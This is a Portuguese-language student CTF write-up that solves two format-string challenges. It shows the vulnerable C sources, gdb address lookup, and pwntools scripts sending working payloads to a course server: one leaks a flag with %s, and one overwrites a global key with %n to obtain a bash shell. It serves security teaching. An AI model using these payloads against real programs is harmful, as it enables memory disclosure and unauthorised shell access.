







## CTF Part 1

- para sabermos com o que estamos a lidar demos uma vista de olhos no main.c
```c

#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}

```
- podemos ver que o scanf esta desprotegido, isto é não é efetuada sanitização de um buffer que é utilizado fornecido pelo utilizador(o que nos deixa aplicar a vulnerabilidade do format string), que o scanf vai imprimir na shell 32 bytes e que o buffer com a flag é uma variavel global , quando nos corremos o codigo checksec temos este output

```shell
[*] '/home/seed/Downloads/Semana7-Desafio1/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
- Com isto nos sabemos que o endereçamento utilizado é little endian
- para obter o endereço do buufer com a flag nos usamos alguns comando do edb para fazermos isso inicialmente nos usamos o exploit template que nos foi fornecido  
```c
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"oi")
p.interactive()
```
- depois de executarmos este codigo tivemos este output



- com este resultado nos conseguimos saber o pid para executarmos num outro terminal o programa com o edb com este codigo que vai ligar o edb ao processo que depois nos vai permitir saber o address do buffer 
```shell
gdb attach 4287

```
- este comando vai correr o gdb neste processo e usando este comando conseguimos o address do buffer

```gdb
p &flag
```
- dando este output



- Nos executamos o codigo multiplas vezes e verificamos que o endereço era estatico com isso nos ja temos informações necessárias para o ataque 
- agora nos so temos de descobrir o offset alteramos uma linha de codigo para saber onde é que nos começavamos a encontrar os elementos do printf
```py
p.sendline(b"AAAA%.8x%.8x")
```
- tivemos este output



- com este output nos sabemos que não ha offset ou seja para concluir este ctf nos so precisamos de meter o address do buffer e aceder ao buffer utilizando %s que acede a buffers
- o address que recebemos pelo edb é o 0x804c060 mas ele tem que ter um zero a esquerda devido a arquitetura logo o address é 0x0804c060 colocando o em little edian é 0x60 , 0xc0 , 0x04 , 0x08 seguindo o adress do %s o nosso codigo esta feito vai ser alguma coisa com isto
```py
p.sendline(b"\x60\xc0\x04\x08%s")
```
- alterando o Local para False ficamos com este codigo 
```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()

```
- dando o seguinte resultado 



## CTF part 2

```c
#include <stdio.h>
#include <stdlib.h>

char pad[2] = "\x00\x00";
int key = 0;

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else {
    	printf("\n\n\nWrong key: %d\n", key);
	fflush(stdout);
    }
        
    return 0;
}
```
- Este é o main contido pelo zip do desafio 2 so com isto conseguimos ver que este codigo contem a mesma vulnerabilidade que é o scanf imprime diretamente codigo do utilizador sem sanatização conseguimos ver que para conseguirmos a flag nos temos que alterar o valor a key para 0xbeef que em hexadecimal é 48879 se conseguirmos fazer isso temos acesso a shell e depois podemos dar cat flag.txt
- para ver quais as proteções do programa vamos correr o checksec que da este output


- com isto sabemos que estamos outravez diante um addresing com little edian de 32 bits
- proseguimos a encontrar o address da variavel global key utilizando o gdb tal como no exercicio anterior



- executamos o gdb multiplas vezes e reparamos que o address não se altera e que tem o address com 7 characters porque o primeiro é zero ficando com o address 0x0804b324 como o address esta em little edian o address que vamos utilizar é 0x24 0xb3 0x04 0x08
 - nos mudamos o exploit mudado anterior nestas duas linhas , nos usamos os primeiros 4 characteres para dar um buffer de 32 bits para conseguirmos usar um %.{offset}x em que o offseet é o valor desejado em decimal que é 48879
o offset vai ser 48879 - 4(buffer dos AAAA) - 4 (o Address em si) = 48871 pois o %n vai contar o numero de bytes imprimidos e guardalos no endereço a que esta a apotar neste caso \x24\xb3\x04\x08%
 ```
    p = remote("ctf-fsi.fe.up.pt", 4005)
    p.sendline(b"AAAA\x24\xb3\x04\x08%.48871x%n")
 ```
 - executando o exploit que nos da acesso a shell podendo depois dar cat flag.txt para termos a flag


